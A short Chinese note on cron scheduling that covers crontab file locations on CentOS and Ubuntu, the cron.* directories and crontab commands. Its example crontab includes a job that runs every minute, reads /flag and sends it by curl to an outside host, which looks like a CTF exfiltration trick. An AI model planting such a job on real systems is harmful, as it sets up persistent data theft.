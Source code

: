 定时任务是通过 cron 服务来管理的。

## **centos的定时任务**
cron 服务会读取系统中/var/spool/cron/下的 crontab 文件。
文件名为所创建定时任务的用户的用户名，如root用户定时任务文件：/var/spool/cron/root
文件内容：
一行一个任务，格式：执行周期 执行的命令
```
* * * * * curl http://ceyc.io/?r=$(cat/flag) 
* * * * * python3 /www/xx.py
```

## **ubantu的定时任务**
Ubuntu Server下，cron是被默认安装在/etc目录下，在该目录下可以看到以下内容：
cron.daily #每天执行一次的任务
cron.hourly #每个小时执行一次的任务
cron.weekly #每个星期执行一次的任务
cron.monthly #每月执行一次的任务
cron.d #系统自动定期需要做的任务
crontab #设定定时任务执行文件
root用户写的定时任务文件在：/var/spool/cron/crontabs/root，和centos比多了crontabs。



## **定时任务相关命令**
```
crontab -e  //进入编辑当前用户的定时任务
crontab -l   //列出当前用户已有的任务
crontab -r   //删除
任务前加#   //注释任务

service crond restart //刷新任务
```

执行周期语法：
直接问chargpt。
```
*****每分钟执行一次
````